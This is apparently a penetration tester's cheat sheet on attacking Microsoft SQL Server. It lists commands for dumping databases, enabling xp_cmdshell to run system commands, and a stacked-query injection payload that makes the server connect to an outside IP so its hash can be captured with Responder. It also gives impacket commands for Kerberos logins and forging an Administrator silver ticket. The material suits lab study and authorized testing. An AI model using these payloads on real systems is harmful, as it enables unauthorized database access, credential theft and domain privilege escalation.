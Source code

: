 # MSSQL
Get databases:
```
select name from sys.databases;
```
Get tables from the given database:
```
select TABLE_NAME from <DB-name>.INFORMATION_SCHEMA.TABLES;
```
Dump data from the table
```
select * from <db-name>..<table-name>;
```
```
select * from <db-name>.dbo.<table-name>;
```
Some useful variables:
```
@@version

# Current user
user

# Current DB
db_name()
# You can increase number
db_name(0)
db_name(1)

```

# Command Injection
## `xp_cmdshell`
If it is disabled: https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC xp_cmdshell 'whoami';
```

## Stacked Queries
Use it with responder. If it is system account you f*cked up! :D
```
500'; EXEC xp_dirtree '\\10.10.10.10\sharename\file';-- -
```



# `sqsh`

# Command Injection
```
xp_cmdshell "whoami"
go
```
If it doesn't work
```
enable xp_cmdshell
```

## Authenticate with Kerberos
- (Include Kerberos TGT - it is explained in `Active Directory.md`)
- Create TGT
```
impacket-gettgt domain.local/username:password
```
- Export TGT
```
export KRB5CCNAME=outputfilename.cache
```
- Verify it
```
klist
```
- Login MS SQL service
```
impacket-mssqlclient dc01.domain.local -k
```

## Creating Silver Ticket for Authentication
- Get user SID for gaining Domain SID
- You can get it via ldap (check ippsec Scrambled 21:00)
```
impacket-getpac adminsitrator domain.local/username:password
```
- Create ticket
```
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash <lowercase-ntlm-hash> -domain-sid <S-1-5-...> -domain scrm.local
```
- `500`: Administrator ID


- Add ticket
```
export KRB5CCNAME=Administrator.ccache
```
- Verify
```
klist
```
